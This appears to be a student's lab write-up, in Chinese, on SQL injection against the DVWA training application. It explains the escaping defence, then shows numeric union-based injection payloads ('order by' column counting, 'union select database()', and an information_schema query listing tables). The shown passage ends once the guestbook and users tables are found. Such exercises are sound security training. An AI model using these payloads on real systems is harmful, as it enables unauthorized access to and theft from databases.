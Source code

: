 

### 代码分析

利用mysql_real_escape_string函数对特殊符号\x00,\n,\r,,’,”,\x1a进行转义，同时前端页面设置了下拉选择表单，希望以此来控制用户的输入。



### 漏洞例用

#### 数字型注入

抓包慕改ID为 1 order by 1 # ，成功

![image-20220525090242063](.\Lab7_SQL Injection.assets\image-20220525090242063.png)

![image-20220822170401845](./Lab7_SQL Injection.assets/image-20220822170401845.png)



#### 顺便看一下字段数

`1 order by 2 #` 查询成功

![image-20220822170908647](./Lab7_SQL Injection.assets/image-20220822170908647.png)

`1 order by 3 #` 查询失败

![image-20220822170935404](./Lab7_SQL Injection.assets/image-20220822170935404.png)



**说明表中只有两个字段**



#### 获取当前数据库

```
1 union select 1,database() #
```

![image-20220822171302081](./Lab7_SQL Injection.assets/image-20220822171302081.png)

当前的数据库为dvwa



#### 获取数据库中的表

```
1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
```

![image-20220822171604960](./Lab7_SQL Injection.assets/image-20220822171604960.png)

**发现 guestbook, users 两个表**


